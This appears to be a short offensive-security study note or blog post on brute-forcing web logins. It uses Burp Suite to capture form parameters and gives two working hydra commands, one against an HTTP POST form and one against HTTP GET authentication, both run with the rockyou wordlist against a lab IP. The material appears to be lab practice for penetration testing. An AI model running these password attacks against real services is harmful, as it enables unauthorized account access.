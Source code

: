 ```yaml
---
layout: post
title: HTTP Login Crack
titledate: 09/10/23
tags: ["infosec","offsec", "password", "hydra", "http"]
---
```


#### HTTP Login Cracking

let's user hydra to try to brute force http form logins

For cracking user logins we can turn on burpsuite and enable intercept mode

from here we can capture a user login to get the required post arguments needed for hydra

#### http-post

    $ hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt 192.168.50.50 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

we pass the user or user list then the password or password list to hydra with the 3 arguments the uri page, the form arguments, and then a response message indicating a failed attempt

for the response message we do not want to include commonly recognized words like password or user

#### http-get

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.50.50 http-get